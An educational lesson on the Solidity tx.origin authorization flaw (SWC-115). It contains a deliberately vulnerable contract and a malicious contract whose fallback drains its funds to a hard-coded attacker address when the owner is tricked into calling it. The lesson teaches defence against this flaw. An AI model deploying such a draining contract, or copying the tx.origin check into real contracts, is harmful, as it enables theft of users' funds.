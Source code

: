 # TxOrigin Attack (SWC-115)

In this lesson we are going to cover a `tx.origin` attack. The global variable `tx.origin` in Solidity always references the address of the original sender of the transaction, of the full call chain. [See the reference in the docs here.](https://solidity.readthedocs.io/en/latest/units-and-global-variables.html?highlight=tx.origin#block-and-transaction-properties){target=_blank} This is different than `msg.sender` in that `msg.sender` references the address of the sender of the current call.

You should never use `tx.origin` in Solidity for authorization ([SWC-115](https://swcregistry.io/docs/SWC-115){target=_blank}). The following smart contract shows you why. It is susceptible to attack.

```
pragma solidity >0.5.0;  

// Example Tx.Origin Authentication Attack     
contract VulnerableContract {      
  address payable owner = msg.sender;             
  
  function withdraw(address payable _recipient) public {          
    require(tx.origin == owner);          
    _recipient.transfer(address(this).balance);      
  }             
  
  function getBalance() view public returns(uint) {          
    return address(this).balance;      
  }             
  
  function() external payable {}  
}     

contract MaliciousContract {      
  VulnerableContract vulnerableContract = VulnerableContract(0x08970FEd061E7747CD9a38d680A601510CB659FB);      
  address payable attackerAddress = 0xdD870fA1b7C4700F2BD7f44238821C26f7392148;             
  
  function() external payable {          
    vulnerableContract.withdraw(attackerAddress);      
  }  
}
```

In this contract, if the creator of the VulnerableContract is tricked into calling the MaliciousContract, the Malicious contract will be able to drain the VulnerableContract of all funds.

Additional Resources:

* [Solidity documentation on the security considerations of tx.origin](https://solidity.readthedocs.io/en/latest/security-considerations.html?#tx-origin){target=_blank}
* [The SWC Registry entry for Authorization through tx.origin](https://swcregistry.io/docs/SWC-115){target=_blank}
